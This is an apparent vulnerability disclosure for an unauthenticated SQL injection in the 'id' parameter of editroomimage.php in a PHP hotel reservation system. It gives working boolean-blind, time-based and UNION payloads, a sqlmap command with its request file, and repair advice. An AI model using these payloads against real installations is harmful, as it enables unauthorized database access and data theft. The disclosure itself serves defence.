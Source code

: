 # Online Hotel Reservation System In PHP With Source Code editroomimage.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'editroomimage.php' file of the 'Online Hotel Reservation System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Online Hotel Reservation System In PHP With Source Code", discovered a critical SQL injection vulnerability in the "editroomimage.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- UNION query

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://192.168.248.130:8883/admin/editroomimage.php?id=1' AND 4674=(SELECT (CASE WHEN (4674=4674) THEN 4674 ELSE (SELECT 1176 UNION SELECT 2912) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://192.168.248.130:8883/admin/editroomimage.php?id=1' AND (SELECT 9944 FROM (SELECT(SLEEP(5)))phya)-- BNhp
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: http://192.168.248.130:8883/admin/editroomimage.php?id=1' UNION ALL SELECT NULL,CONCAT(0x71787a6a71,0x5451424e4d574f75776a52667977797163486b506d6d6442434a6765726266464a4241594b655148,0x71626b7871),NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,[QUERY],NULL,NULL,NULL,NULL-- -
```

![image-20250806143751501](assets/image-20250806143751501.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /admin/editroomimage.php?id=1* HTTP/1.1
Host: 192.168.248.130:8883
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 
Connection: keep-alive
```

# Attack results

![image-20250806143827328](assets/image-20250806143827328.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.